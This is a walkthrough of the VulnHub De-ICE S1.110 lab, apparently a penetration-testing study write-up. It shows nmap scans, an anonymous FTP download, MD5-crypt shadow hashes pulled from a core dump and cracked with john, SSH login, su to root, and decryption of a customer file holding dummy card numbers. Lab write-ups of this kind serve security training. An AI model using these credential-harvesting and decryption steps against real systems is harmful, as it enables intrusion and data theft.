 # __De-ICE_S1.110__
[Link to vulnhub](https://www.vulnhub.com/entry/de-ice-s1110,9/)

## Reconnaissance
```
nmap -sS -O 192.168.1.0/24

Nmap scan report for 192.168.1.110
Host is up (0.00033s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
631/tcp open  ipp
MAC Address: 00:0C:29:A2:AA:41 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
Network Distance: 1 hop
```

## __Enumeration__
Nmap vulnerability scan
```
Nmap scan report for 192.168.1.110
Host is up (0.00039s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.4
|_sslv2-drown: 
22/tcp  open  tcpwrapped
80/tcp  open  http       Apache httpd 2.2.4 ((Unix) mod_ssl/2.2.4 OpenSSL/0.9.8b DAV/2)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.2.4 (Unix) mod_ssl/2.2.4 OpenSSL/0.9.8b DAV/2
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  OSVDB:74721
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       http://seclists.org/fulldisclosure/2011/Aug/175
|       http://nessus.org/plugins/index.php?view=single&id=55976
|       http://osvdb.org/74721
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
631/tcp open  ipp        CUPS 1.1
|_http-server-header: CUPS/1.1
MAC Address: 00:0C:29:A2:AA:41 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.13 - 2.6.32
Uptime guess: 0.004 days (since Sat Dec 30 14:05:29 2017)
Network Distance: 1 hop
```

It's 4 services (FTP, SSH, HTTP, HTTP). 
#### __FTP__
	* FTP anonymous enable
```
root@BOEING:# ftp 192.168.1.110
Connected to 192.168.1.110.
220 (vsFTPd 2.0.4)
Name (192.168.1.110:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls -lR  /kapi/tmp/ftp_192.168.1.110.txt 
output to local-file: /kapi/tmp/ftp_192.168.1.110.txt? y
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
```

Download all file in /download directory
```
root@BOEING:# wget -r --user="anonymous" --password="anonymous" ftp://192.168.1.110/download

root@BOEING:# grep -rn -iE --color "root" "download"
...snip...
Binary file download/etc/core matches
...snip...
```

After checking ASCII files  I got hash of root user in /download/etc/shadow which has been cracked to "toor" but I could not login with this credention. Then I took a look at /download/etc/core file which is a file containing a process's address space (memory) when the process terminates unexpectedly. 
```
root@BOEING:# strings download/etc/core 
...snip...
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::bin:*:9797:0:::::daemon:*:9797:0:::::adm:*:9797:0:::::lp:*:9797:0:::::sync:*:9797:0:::::shutdown:*:9797:0:::::halt:*:9797:0:::::mail:*:9797:0:::::news:*:9797:0:::::uucp:*:9797:0:::::operator:*:9797:0:::::games:*:9797:0:::::ftp:*:9797:0:::::smmsp:*:9797:0:::::mysql:*:9797:0:::::rpc:*:9797:0:::::sshd:*:9797:0:::::gdm:*:9797:0:::::pop:*:9797:0:::::nobody:*:9797:0:::::aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::

<< re-arrange >>
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::
bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::
ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::
```

* Crack hashes
```
root@BOEING:# vi hash_core
root@BOEING:# john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt hash_core
```

I got no luck here but the hint told me that the passwords could be cracked. So I will use additional option --rules which increase possibility to crack password by tweeking word before compute their hashes.

The following specified in man page of john tool.
```
-rules Enables wordlist rules, that are read from [List.Rules:Wordlist] in /etc/john/john.conf (or the alternative configuration file you might
              specify on the command line).
              This option requires the -wordlist option to be passed as well.
```

Try john again.

```
root@BOEING:# john --rules --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt hash_core
root@BOEING:# john --show hash_core 
root:Complexity:13574:0:::::
bbanter:Zymurgy:13571:0:99999:7:::

root@BOEING:# ssh root@192.168.1.110
root@192.168.1.110's password: 
Permission denied, please try again.
root@192.168.1.110's password: 

root@BOEING:# ssh bbanter@192.168.1.110
bbanter@192.168.1.110's password: 
Linux 2.6.16.
bbanter@slax:~$ 
```

I could not login with root account but bbanter.

## __Exploit__
```
root@BOEING:# ssh bbanter@192.168.1.110
bbanter@192.168.1.110's password: 
Linux 2.6.16.
bbanter@slax:~$ 
```


## __Privilege escalation__
I got root password so just SU
```
bbanter@slax:~$ su
Password: ********** (Complexity)
```

Check for home/root
```
root@slax:/home/root/.save# ls -al
total 8
drwx------ 2 root   root 100 Mar 15  2007 .
drwxr-xr-x 3 aadams  513 100 Mar 15  2007 ..
-r-x------ 1 root   root 198 Mar 13  2007 copy.sh
-rw-r--r-- 1 aadams  513 560 Mar 13  2007 customer_account.csv.enc
root@slax:/home/root/.save# cat copy.sh 
#!/bin/sh
#encrypt files in ftp/incoming
openssl enc -aes-256-cbc -salt -in /home/ftp/incoming/$1 -out /home/root/.save/$1.enc -pass file:/etc/ssl/certs/pw
#remove old file
rm /home/ftp/incoming/$1
```

Now I could decrypt customer_account.csv.enc using parameters specified in copy.sh
```
openssl enc -aes-256-cbc -salt -in /home/ftp/incoming/$1 -out /home/root/.save/$1.enc -pass file:/etc/ssl/certs/pw
```

Let's decrypt the file
```
root@slax:/home/root/.save# openssl enc -d -aes-256-cbc -salt -in /home/root/.save/customer_account.csv.enc -out /tmp/customer_account.csv -pass file:/etc/ssl/certs/pw
root@slax:/home/root/.save# cat /tmp/customer_account.csv    
"CustomerID","CustomerName","CCType","AccountNo","ExpDate","DelMethod"
1002,"Mozart Exercise Balls Corp.","VISA","2412225132153211","11/09","SHIP"
1003,"Brahms 4-Hands Pianos","MC","3513151542522415","07/08","SHIP"
1004,"Strauss Blue River Drinks","MC","2514351522413214","02/08","PICKUP"
1005,"Beethoven Hearing-Aid Corp.","VISA","5126391235199246","09/09","SHIP"
1006,"Mendelssohn Wedding Dresses","MC","6147032541326464","01/10","PICKUP"
1007,"Tchaikovsky Nut Importer and Supplies","VISA","4123214145321524","05/08","SHIP"
```